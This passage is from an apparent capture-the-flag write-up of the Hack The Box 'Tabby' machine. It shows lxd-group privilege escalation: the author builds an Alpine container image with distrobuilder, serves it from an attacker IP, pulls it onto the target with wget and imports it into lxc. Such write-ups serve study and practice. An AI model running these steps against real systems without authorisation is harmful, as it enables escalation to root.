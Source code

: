 So ash is member of 4 adm, 30 dip, 46 plugdev, and 116 lxd.

I google exploits for all of these. And hacktricks actually has a page for lxd: https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

That doesn't work for me so I find this instead https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.md

and I also used this: https://github.com/lxc/distrobuilder

The commands I ran are:

[On my local machine]

```
root@kali:/home/kali/htb/Tabby# sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools git

In order to get the requirements like go.


root@kali:/home/kali/htb/Tabby# go get -d -v github.com/lxc/distrobuilder/distrobuilder

the lxc distrobuilder

root@kali:/home/kali/htb/Tabby# cd $HOME/go/src/github.com/lxc/distrobuilder
root@kali:~/go/src/github.com/lxc/distrobuilder# make

going to the distrobuilder install and using the makefile to install everything.

root@kali:~/go/src/github.com/lxc/distrobuilder# mkdir -p $HOME/ContainerImages/alpine/
root@kali:~/go/src/github.com/lxc/distrobuilder# cd $HOME/ContainerImages/alpine/
root@kali:~/ContainerImages/alpine# wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

create a directory for the image etc. and download the yaml configuration file

root@kali:~/ContainerImages/alpine# sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8

Specify the build image release

root@kali:~/ContainerImages/alpine# python -m SimpleHTTPServer 80

starting up a webserver to upload the image.

[On the target machine]

ash@tabby:~$ wget http://10.10.14.51/rootfs.squashfs
--2021-03-22 05:10:19--  http://10.10.14.51/rootfs.squashfs
Connecting to 10.10.14.51:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2015232 (1.9M) [application/octet-stream]
Saving to: ‘rootfs.squashfs’

rootfs.squashfs     100%[===================>]   1.92M  6.28MB/s    in 0.3s    

2021-03-22 05:10:19 (6.28 MB/s) - ‘rootfs.squashfs’ saved [2015232/2015232]

ash@tabby:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

Download both the files. and import them into lxc

ash@tabby:~$ lxd init

Initializing lxd, just letting all the settings stay as default
```